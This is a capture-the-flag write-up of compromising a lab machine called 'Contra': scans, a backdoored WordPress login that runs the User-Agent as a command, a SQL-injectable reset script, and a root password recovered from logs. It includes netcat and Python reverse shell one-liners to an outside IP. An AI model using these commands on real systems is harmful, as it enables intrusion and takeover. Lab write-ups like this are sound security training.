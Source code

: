 # Contra

__MACHINE IP__: 10.1.1.38

__DATE__: 7/10/2019

__START TIME__: 10:33 AM


## `NMAP`

![](images/nmap.png)

okay so there are 3 ports open and we can see that FTP allows anonymous login. So we'll start to looking from that.

## FTP

I logged in using `anonymous: anonymous` credentials but I didn't found anything in there.

![](images/ftp.png)

So I moved on to HTTP service.

## HTTP

![](images/website.png)

Since there was nothing in the comments section of that page I started a gobuster scan on it.

![](images/gobust.png)

We can see that there is a `blog` and two files.

In `notes.txt` I found a `warning`

![](images/notes.png)

```
/!\ Urgent :Our infrastructure got hacked by some hackers . Everyone must change credentials and please dont download zipped files because  they may be backdoored !
```

In the Zip file there were all the `Wordpress blog` files. So first thing I did was to `cat` the `wp-config.php` to get the `DB` credentials, assuming they would help in login.

The credential I got were `username:password`, I tried those but that didn't worked.

Then I decided to search for string `backdoor` in all those blog files to see if I get something and to my luck I did

![](images/back.png)

Opening the `wp-login.php` file to take a proper look and I saw in the code

![](images/code.png)

The way to exploit it is run commands in the `User-agent` field and they will be executed on the system. Why? Because this is what is happening on that line.

In PHP [passthru](https://www.php.net/manual/en/function.passthru.php) executes the `external` program and gives the output. So basically whatever is in the `User-agent` field will be executed on the system.

I tried with `cat wp-config.php` to see whether my method works or not and it actually did.

![](images/confirm.png)

## Reverse Shell and User PWN

I kept on looking and found the `user.txt`

![](images/user.png)

For some reason `nc -e /bin/sh 10.254.1.227 4444` didn't worked so I used the python version i.e

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.254.1.227",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](images/rev.png)

## Privilege escalation

I ran enumeration script but it didn't found anything interesting in there.
- `mysql -u username -p password -e "use contra;SELECT * FROM creds;"`

![](images/sql-login.png)

got nothing in db `contra`.

Then I [@andreas]() told me to look in `/var/www/html` and in there I found a directory named `RecoveryUtility`.

![](images/dir.png)

In that directory I found `newpass.php` having php code.

![](images/php-code.png)

```php
<?php
error_reporting(-1); // reports all errors
ini_set("display_errors", "1");
// admin can you make logs unreadable for more security  ?
$newpass = $_GET["newpassword"];

$command = sprintf("UPDATE credentials SET password='%s' ",$newpass);
$conn = new mysqli("localhost", "username", "password","contra");
// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
if ($conn->query($command) === TRUE) {
    echo "Record updated successfully";
} else {
    echo "Error updating record: " . $conn->error;
}
$conn->close();
?>
```

We can see that there is a `$newpass = $_GET["newpassword"];` which mean it's getting new password from `newpassword` field and then updating it.

I did `http://10.1.1.38/RecoveryUtility/newpass.php?newpassword=mzfrpassword`  and got `Record update`

![](images/record.png)

But I was not sure what happens with that but then I noticed the comment in the source
```
// admin can you make logs unreadable for more security  ?
```

So I checked out `/var/log`. There was `access.log.2.gz` which had

```
-rwxrwxrwx  1 root     adm       33135 Dec 16  2018 access.log.2.gz
```

so I did `gunzip -k access.log.2.gz` and got `access-log.2` which had `www-data` permission meaning we can read it.

![](images/logs.png)

Then I did `cat access.log.2 | grep password` and got password for bill.

![](images/bill-password.png)

`Sup3rp@ssw0rd99`

I tried to `su bill` but it didn't work so I tried `su root` with that password and I got root shell.

![](images/root-shell.png)

![](images/root.png)

***

This was machine was fun todo. Thanks to [@H4d3s]() for making this machine.

Thank to [@4ndr34z](https://twitter.com/4nqr34z) for helping me.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.

